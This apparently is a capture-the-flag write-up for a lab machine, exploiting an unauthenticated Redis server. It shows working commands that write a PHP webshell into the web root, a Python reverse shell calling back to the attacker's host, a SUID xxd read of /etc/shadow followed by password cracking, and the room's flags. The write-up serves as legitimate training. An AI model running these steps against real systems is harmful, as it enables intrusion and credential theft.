 <h2>Room description: ‘Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!’</h2>

Recon and Enumeration 

<h>Question 1: Scan the machine, how many ports are open?</h>

<h2>Recon and Enumeration</h2>

<h3>PortScanning</h3>

command:```sudo namp -sV -sC -P0 -p- <$iP>```

```
──(root㉿d4rk5id3)-[~]
└─# nmap -sC -sV -Pn -oN nmap 10.10.244.169
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-10 16:30 WAT
Nmap scan report for 10.10.244.169
Host is up (0.34s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.90 seconds
                                                                                                                                                                                            
┌──(root㉿d4rk5id3)-[~]
└─# nmap -sC -sV -Pn -p 6379,80 10.10.244.169
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-10 16:30 WAT
Nmap scan report for 10.10.244.169
Host is up (0.15s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6379/tcp open  redis   Redis key-value store 6.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.64 seconds
                                                                   
```
from the scan result above, it can be seen that there are only two ports open on the target system. port (80) which runs Apache HTTP Server, and Port (6379) which runs a DBMS service called redis.

![image](/posts/res/nmap.png)

Answering the Questions that were asked

_#What is the database management system running on?_

ans: redis

_#What port is the database management system running on?_

ans: 6379

_#What is the version of management system installed on the server?_

ans: 6.0.7

_#Compromise the machine and locate user.txt_

1. so i ran a directory bruteforce on the server but found nothing interesting so i had to lookup redis 6.0.7 dbms service on google 

it appears that we can check out the service by using the redis-cli command or by simply using netcat for connecting to the redis service.

from our Recon, we know that it is running a web server which Commonly stores it’s html data on /var/www/html path.

command: ```redis-cli <target_ip>```

![image](/posts/res/redis_cli.png)

Next, we'll specify the dbfilename with a filename of our selection. In this instance, we're designating it as "shell.php." Since it carries the ".php" extension, it's clear that we intend to insert PHP code into this file for execution.

command: ```config set dir /var/www/html```
```config set dbfilename shell.php```
```set test "<?php system($_GET['cmd']) ?>" ```
```save```

with our RCE script ready we can hesd over to the path on our server
```http://<machine_ip>/shell.php?cmd=id```

![image](/posts/res/id.png)

Now we have our webshell, It's time to establish a reverse shell connection to the target machine.

first of all we must set up a netcat listener 
![image](/posts/res/nc.png)

run this reverse shell using our webshell

```http://<machine_ip>/shell.php?cmd=python -c ‘import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“<local_ip>”,3030));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(“/bin/sh”)’```

now we have our reverse shell.
![image](/posts/res/rev.png)

lets upgrade to get a better and  stable shell

```python -c 'import pty;pty.spawn("/bin/bash")';```




Going over to the home directory we list all files and folder, that got our first flag.

![image](/posts/res/flag.png)

flag: ``` thm{red1s_rce_w1thout_credent1als} ```


3. What is the local user account password?
After running the `sudo -l` command, i found out that our user lacked sudo permissions. To further investigate, I used the following command to check for services with the SUID bit set:


command:```find / -perm -u=s -type f 2>/dev/null```

 *   / instructs the search to cover the entire file system.
 *   -perm is used to identify files with particular permissions.
 *   u=s specifies that we are looking for files where any  permission bits are set to 's'.
 *  -type f restricts the search to files only.
 *   2>/dev/null is added to suppress any error messages.

![image](/posts/res/bin.png)

after some few seconds we can see our result /usr/bin/xxd looks vulnerable so let's check out GTFObins.
  from my discovery i can see that the with this binary, we can only read files as root.

  Excellent! Now Let’s try this to read the /etc/shadow file to find the users password. 
 command: ```/usr/bin/xxd /etc/shadow | xxd -r```

![image](/posts/res/shadow.png)

 now we have successfully read the /etc/shadow file we can see that a user Vianka has a password hash on the machine. lets save that hash to a txt file and try cracking it with john.
 command:```john hash.txt --wordlist=<path_to_Word_list>rockyou.txt```
![image](/posts/res/pass.png)
password ```beautiful1```

 we now have our password for the user vianka. lets attempts to login

 command: ```su vianka```

 Let’s check what sudo privileges we have with sudo -l

 ![image](/posts/res/su.png)

 Great news! We now possess sudo privileges. To elevate our privileges, I'll execute the command `sudo su` and retrieve the `root.txt` file!
 ![image](/posts/res/root.png)


Root Flag:```thm{xxd_pr1v_escalat1on}```

That will be all for today
<br> <br>
[Back To Home](../../index.md)



































